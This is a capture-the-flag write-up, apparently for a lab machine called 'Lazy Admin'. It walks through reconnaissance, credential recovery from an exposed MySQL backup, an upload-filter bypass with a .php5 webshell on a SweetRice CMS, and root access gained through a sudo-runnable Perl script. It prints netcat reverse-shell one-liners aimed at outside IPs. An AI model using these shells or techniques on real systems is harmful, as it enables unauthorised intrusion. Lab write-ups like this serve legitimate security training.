








# Lazy Admin

#Linux #PHP #PrivEsc #WebExploitation 

## Reconnaissance

I started running nmap and I got the result:

```
$ nmap -sV -sC 10.67.134.92
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-26 05:10 -0500
Nmap scan report for 10.67.134.92
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Upon accessing the main page, the Ubuntu default page is displayed.

<figure><figcaption></figcaption></figure>
## Exploiting

Since there was nothing interesting, I started searching for directories and files.

```
$ ffuf -u http://10.67.134.92/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.67.134.92/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

content                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 133ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 133ms]
```

I found the `content` directory, it looks interesting. I noticed that the application uses a CMS called SweetRice.

<figure><figcaption></figcaption></figure>

Searching for others directories on `content` directory, I found these.

```
$ ffuf -u http://10.67.134.92/content/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.67.134.92/content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

inc                     [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 133ms]
_themes                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 133ms]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 3282ms]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 4287ms]
attachment              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 133ms]
as                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 133ms]
```

In the `inc` directory, there is a MySQL backup file that contained admin credentials. 

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

I used a tool to discover the password using the hash I found.

<figure><figcaption></figcaption></figure>

I was finally able to find the login page with the `as` directory I had found before.

<figure><figcaption></figcaption></figure>

Using the credentials `manager:Password123` I was able to login successfully.

<figure><figcaption></figcaption></figure>

While searching for possible file uploads options (considering the application uses PHP), I found this page where I can upload a file.

<figure><figcaption></figcaption></figure>

Intercepting the request using Burpsuite, I noticed that it doesn't return any errors when uploading a file, but the file is not uploaded.  

<figure><figcaption></figcaption></figure>

First, I tried to upload a php file but it didn't work. Then, I tried to upload any file with `.txt` extension just to check if it was possible to upload a file, and it worked. There's probably a filter preventing any file with the `.php` extensions from being sent.  

<figure><figcaption></figcaption></figure>

To bypass that, I used `.php5` extension, and it works.

<figure><figcaption></figcaption></figure>

We can see below that the code was executed successfully.

<figure><figcaption></figcaption></figure>

Then, I simply modified the PHP content file to get a webshell.

<figure><figcaption></figcaption></figure>

The first flag was located in `/home` folder.

<figure><figcaption></figcaption></figure>

## Privilege Escalation

First, I checked if there were any files that I could run as sudo. 

<figure><figcaption></figcaption></figure>

I can run a Perl script called `backup.pl` that contains the following code:

```bash
www-data@THM-Chal:/home/itguy$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Let's take a look in `/etc/copy.sh`:

```
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/
```

I managed to modify the `copy.sh` to send a shell to myself as a root.

```
www-data@THM-Chal:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.130.101 1337 >/tmp/f" > /etc/copy.sh
```

Running the perl script as sudo, I got a shell as root.

<figure><figcaption></figcaption></figure>

Root flag:

<figure><figcaption></figcaption></figure>
